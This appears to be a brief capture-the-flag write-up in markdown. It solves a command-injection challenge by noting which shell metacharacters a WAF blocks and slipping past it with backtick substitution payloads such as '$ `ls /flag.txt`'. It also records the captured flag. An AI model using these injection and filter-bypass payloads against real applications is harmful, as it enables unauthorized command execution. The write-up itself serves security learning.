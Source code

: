 # A1

![[Pasted image 20210327194902.png]]

## command Injection

#### Escape Chars = ```  $ ` & | ;  ```

## WAF
#### Caught = ``` ; | & ```

![[Pasted image 20210327195515.png]]


#### Escaped = ``` $ `   ```

![[Pasted image 20210327195655.png]]



## CMD Injection
#### Payload = ``` $ `ls`  ```

![[Pasted image 20210327195828.png]]

#### Source Code

![[Pasted image 20210327200059.png]]


## Reading Flag

#### Payload =``` $ `ls /flag.txt` ```

![[Pasted image 20210327200219.png]]


### Flag = ``` Sl7{BlinD-COMManD-InjECti0n-D0nE} ```
